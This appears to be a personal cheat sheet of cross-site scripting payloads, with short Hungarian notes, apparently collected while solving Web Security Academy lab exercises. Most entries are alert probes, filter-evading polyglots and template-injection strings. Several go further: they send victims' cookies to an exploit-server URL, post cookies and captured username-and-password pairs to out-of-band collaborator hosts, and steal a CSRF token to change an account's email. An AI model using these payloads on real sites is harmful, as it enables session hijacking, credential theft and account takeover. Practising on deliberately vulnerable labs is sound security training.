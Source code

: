 <><SCript>alert(1)</SCript>


"><svg onload=alert(1)>


<img src=1 onerror=alert(1)>


javascript:alert(document.cookie)


exploit serverbe:
<iframe src="https://0a18008d03221cf38046036c00c20021.web-security-academy.net/#" onload="this.src+='<img src=x onerror=print()>'"></iframe>


jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert("letesztelni") )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert("letesztelni")//>\x3e


jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert(document['cookie']) )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert(document['cookie'])//>\x3e


"></select>jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert("letesztelni") )//%0D%0A%0D%0A//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert("letesztelni")//>\x3e


"onmouseover="alert(1)


{{constructor.constructor('alert(1)')()}}


{{$on.constructor('alert(1)')()}}


\"-alert(1)}//


<xss id=x tabindex=1 onfocus=alert(1)><


jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert(1) )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert(2)//>\x3ea
<><img src=1 onerror=alert(3)>


<><img src=1 onerror=alert(1)>


exploit serverbe:
<script>
location = 'https://0add00df0415f10881e16b000075005b.web-security-academy.net/?search=%3Cxss+id%3Dx+onfocus%3Dalert%28document.cookie%29%20tabindex=1%3E#x';
</script>


exploit serverbe:
<iframe src="https://0ae800cc04eb684982872ac0006500e6.web-security-academy.net/?search=%22%3E%3Cbody%20onresize=document.location=`https://exploit-0a32008804f9687e82932985016800df.exploit-server.net/?kookie=`+document.cookie%3E" onload=this.style.width='100px'>


httéps://blablabla.net/ után:
?'accesskey='x'onclick='alert(1)


httéps://blablabla.net/?search= után:
%22%3E%3Csvg%3E%3Canimatetransform%20onbegin=alert(1)%3E


\'-alert(1)//


</script><script>alert(1)</script>


Website mezőben:
http://foo?&apos;-alert(1)-&apos;


${alert(1)}


commentben:
<script>
    fetch('https://xyzbptj5cccuj168v3n6d8yklbr2ft3i.oastify.com', {
    method: 'POST',
    mode: 'no-cors',
    body:document.cookie
    });
</script>


commentben:
<input name=username id=username>
<input type=password name=password onchange="if(this.value.length)fetch('https://rid59n3zw6wo3vq2fx70x2ie55bwzond.oastify.com',{
method:'POST',
mode: 'no-cors',
body:username.value+':'+this.value
});">


commentben:
<script>
var req = new XMLHttpRequest();
req.onload = handleResponse;
req.open('get','/my-account',true);
req.send();
function handleResponse() {
    var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1];
    var changeReq = new XMLHttpRequest();
    changeReq.open('post', '/my-account/change-email', true);
    changeReq.send('csrf='+token+'&email=test@test.com')
};
</script>

